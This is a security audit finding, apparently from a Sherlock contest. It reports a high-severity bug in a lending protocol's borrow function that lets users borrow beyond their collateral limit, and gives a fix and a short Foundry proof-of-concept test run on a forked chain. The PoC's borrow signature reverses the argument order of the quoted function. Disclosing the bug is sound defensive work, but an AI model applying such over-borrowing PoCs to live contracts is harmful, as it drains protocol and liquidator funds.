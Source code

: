 **A user can borrow amount beyond collateral limit in Lend-Protocol**

_Bug Severity: High_

_Target:_
https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2%2Fsrc%2FLayerZero%2FCoreRouter.sol#L145
 

**Summary:**

The borrow function is used to borrow debt from the protocol, and the function does not check borrowed and collateral properly, the require checks preBorrowAmount ( currentBorrowBalance ) instead of postBorrowAmount ( currentBorrowBalance + _amount ) this will allow borrowers to borrow debt more than their collateral


```solidity
// CoreRouter.sol
    function borrow(uint256 _amount, address _token) external {
    
     // ... existed code

        (uint256 borrowed, uint256 collateral) =
            lendStorage.getHypotheticalAccountLiquidityCollateral(msg.sender, LToken(payable(_lToken)), 0, _amount);

        uint256 borrowAmount = currentBorrow.borrowIndex != 0
            ? ((borrowed * LTokenInterface(_lToken).borrowIndex()) / currentBorrow.borrowIndex)
            : 0;

@audit ---> This require will allow over borrowing because it checks only preBorrowAmount, to prevent this bug protocol has to change borrowAmount to borrowed

         require(collateral >= borrowAmount, "Insufficient collateral");

       // ... existed code

        // Emit BorrowSuccess event
        emit BorrowSuccess(msg.sender, _lToken, lendStorage.getBorrowBalance(msg.sender, _lToken).amount);
    }
```



**Vulnerability Details:**

A. A User deposited $1000 for example, and the collateral factor (LTV) is 0.8e18 (80%), that means the User has a chance to borrow $800

B. The User borrowed $500, the remaining borrowable balance = $300

C. The User tried to borrow $400 even though his available amount is $300

D. The function checks if the borrowAmount which $500 is equal or less than collateral.

E. The borrow function has indeed identified that the collateral > $500

F. The borrower has received $400, while his currentBorrowBalance is $500. that means the borrower has borrowed $900 instead of $800,that extra $100 will fall the user's debt underCollateralized.



**Impact:**

- Loss of protocol and Liquidators funds because the user's collateral can not pay the debt

- The protocol has to take responsibilities of these losses

- While the Liquidators will not receive their incentives.



**Recommendation:**

Change borrowAmount in require

```solidity

// from this
require(collateral >= borrowAmount, "Insufficient collateral");

// to this
require(collateral >= borrowed, "Insufficient collateral");

// borrowAmount = currentBorrowBalance e.g $500
// borrowed = currentBorrowBalance + _amount e.g $500 + $400 = $900.
```

Proof of concept (PoC):

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.23;

import {Test} from "forge-std/Test.sol";
import {console2} from "forge-std/console2.sol";
import {IERC20} from "../src/interfaces/IERC20.sol";



interface ICoreRouter {
    function supply(uint256 amount, address token) external;
    function borrow(address token, uint amount) external;
    function redeem(address token, uint amount) external;
}


contract LendOverBorrow is Test {

    address public USDC = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
    address public CoreRouter = 0x55b330049d46380BF08890EC21b88406eBFd20B0;
    address public User = 0x37305B1cD40574E4C5Ce33f8e8306Be057fD7341;


function setUp() public {

    vm.createSelectFork(vm.envString("ETH_RPC_URL"), 19000000);

       deal(USDC, User, 10_000e6);

       uint bal = IERC20(USDC).balanceOf(User);
       console2.log("USDC Balance:", bal);

     
          vm.startPrank(User);
     IERC20(USDC).approve(CoreRouter, 1_000e6);


     console2.log("USDC Balance before deposit:", IERC20(USDC).balanceOf(User));

     console2.log("Allowance:", IERC20(USDC).allowance(User, CoreRouter));

     ICoreRouter(CoreRouter).supply(1_000e6, USDC);
     vm.stopPrank();
}

function test_over_borrow() public {
    vm.startPrank(User);

     ICoreRouter(CoreRouter).borrow(USDC, 500e6); 

     ICoreRouter(CoreRouter).borrow(USDC, 400e6); // Misali overly borrow

    vm.stopPrank();
}
}
```

